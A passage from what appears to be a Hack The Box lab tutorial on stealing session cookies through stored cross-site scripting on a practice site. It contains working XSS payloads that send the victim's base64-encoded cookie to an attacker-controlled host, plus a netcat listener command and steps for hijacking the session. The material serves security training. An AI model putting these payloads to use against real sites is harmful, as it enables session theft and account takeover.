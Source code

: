 A sample HTTPS>HTTPS payload example can be found below:
```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```
`CUSTOMLINK` should be the URL provided by the VPS service we use for exposing our attacking machine on Internet.

#### Simulate the victim

Open a `New Private Window`, navigate to `http://xss.htb.net` and log in to the application using the credentials below:

* Email: smallfrog576
* Password: guitars

This account will play the role of the victim!

Now, navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`. This is the attacker-crafted public profile that hosts our cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

You should now see the below in your attacking machine:
![52](https://academy.hackthebox.com/storage/modules/153/52.png)

Terminate the PHP server with `CTRL+C`, and the victim's cookie will reside inside `cookieLog.txt`:
![53](https://academy.hackthebox.com/storage/modules/153/53.png)

You can now use this stolen cookie to hijack the victim's session!

### You can now use this stolen cookie to hijack the victim's session!

Instead of a cookie-logging script, we could have also used the venerable Netcat tool.

Let us try that as well for completeness's sake.

Before we simulate the attack, let us place the below payload in the Country field of Ela Stienen's profile and click "Save." There are no specific requirements for the payload. We just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes:
```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```
Let us also instruct Netcat to listen on port 8000 as follows:
```
user@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

#### Simulate the victim

Open a `New Private Window` and navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`, simulating what the victim would do. We remind you that the above is an attacker-controlled public profile hosting a cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).
